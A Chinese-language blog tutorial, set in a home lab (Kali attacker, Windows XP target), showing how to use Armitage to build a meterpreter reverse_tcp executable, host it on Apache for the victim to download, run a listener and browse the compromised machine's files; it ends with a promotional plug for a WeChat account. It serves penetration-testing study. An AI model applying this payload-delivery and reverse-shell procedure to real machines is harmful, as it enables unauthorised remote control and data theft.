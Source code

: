 ```yaml
---
layout: post
category: curleyg-code-hack
title: 使用Armitage进行客户端攻击
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 使用Armitage进行客户端攻击
lock: need
---
```


# 使用Armitage进行客户端攻击

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

### 查找攻击载荷 

在Armitage的左上角依次选择payload->windows->meterpreter->reverse_tcp

### 设置攻击载荷

这里，需要双击reverse_tcp，之后，会弹出如下对话框：

![img](https://img-blog.csdnimg.cn/20190128134927500.png)

这里，设置我们的LHOST和LPORT,并将Output设置为exe,最后单击Launch按钮导出生成的exe文件。

![img](https://img-blog.csdnimg.cn/20190128134940195.png)

如下：

![img](https://img-blog.csdnimg.cn/20190128134952345.png)

点击保存按钮，将test.exe保存到/root目录下。

### 移动test.exe到apache目录下

```
mv test.exe /var/www/html/
```

此时，输入如下命令启动apache

```
service apache2 start
```

### 在靶机上下载test.exe

在靶机的浏览器地址栏输入：http://192.168.175.128/test.exe下载test.exe文件

![img](https://img-blog.csdnimg.cn/20190128135053701.png)

### 创建监听器

依次单击Armitage->Listeners->Reverse选项：

![img](https://img-blog.csdnimg.cn/20190128135110183.png)

点击后弹出一个对话框，如下：

![img](https://img-blog.csdnimg.cn/2019012813512652.png)

这里，我们将端口设置为8888,将类型设置为meterpreter，然后点击Start Listener

效果如下图：

![img](https://img-blog.csdnimg.cn/2019012813514745.png)

### 运行exe文件

在靶机上双击test.exe

![img](https://img-blog.csdnimg.cn/20190128135206863.png)

### 查看结果

此时，切换到Armitage，我们在输出日志中看到打开了一个Meterpreter session,如下图：

![img](https://img-blog.csdnimg.cn/20190128135222423.png)

同时，可以看到靶机图标有红色闪电包围，说明我们成功拿下了靶机的Meterpreter。

### 查看靶机的目录结构

右键靶机图标->Meterpreter->Explore->Browse Files

![img](https://img-blog.csdnimg.cn/20190128135255860.png)

如下图所示：

![img](https://img-blog.csdnimg.cn/20190128135310495.png)

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
